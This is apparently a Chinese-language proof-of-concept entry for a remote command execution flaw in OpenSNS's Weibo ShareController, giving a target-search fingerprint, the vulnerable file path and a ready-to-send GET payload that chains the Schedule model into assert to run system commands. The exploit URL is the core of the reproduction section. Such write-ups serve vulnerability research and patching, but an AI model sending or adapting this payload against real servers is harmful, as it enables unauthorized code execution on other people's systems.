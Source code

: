 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![](./images/202202170923817.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![image-20220518154015894](./images/202205181540972.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![](./images/202202170923310.png)